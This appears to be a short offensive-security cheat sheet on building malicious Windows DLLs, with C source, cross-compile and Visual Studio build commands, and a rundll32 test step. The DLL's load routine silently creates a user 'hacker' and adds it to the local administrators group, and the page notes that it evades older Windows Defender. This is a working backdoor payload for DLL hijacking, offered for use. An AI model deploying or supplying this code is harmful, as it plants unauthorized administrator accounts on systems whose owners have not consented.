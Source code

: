 # Creating a DLL in Linux

The code below currently does not get detected by older Windows Defender

```c
#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd.exe /c net user hacker hacked /add");
    system("cmd.exe /c net localgroup administrators hacker /add");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Saved as `adduser.c`

Compile: `x86_64-w64-mingw32-gcc adduser.c -shared -o adduser.dll`

# Creating a DLL in Windows

1. Install Visual Studio Community Edition (whichever year, I used 2019)

2. From the start menu, run `x64 Native Tools Command Prompt for VS 2019`

3. Create your .c file in a folder somewhere writable

4. Compile the file with:

   ```vim
   cl.exe /LD <files-to-compile>
   ```

   or, if you prefer the more verbose & explicit version:

   ```jboss-cli
   cl.exe /D_USRDLL /D_WINDLL <files-to-compile> <files-to-link> /link /DLL /OUT:<desired-dll-name>.dll
   ```

5. Copy your DLL and enjoy

# Testing a DLL

Open a command prompt in Windows and run this:

```powershell
# Specify the function to run from within the DLL
# You can use Process Explorer to find the functions if you're not sure of it
# If there's no defined functions, just specify `Entry`
rundll32 yourDLL.dll, Entry
```

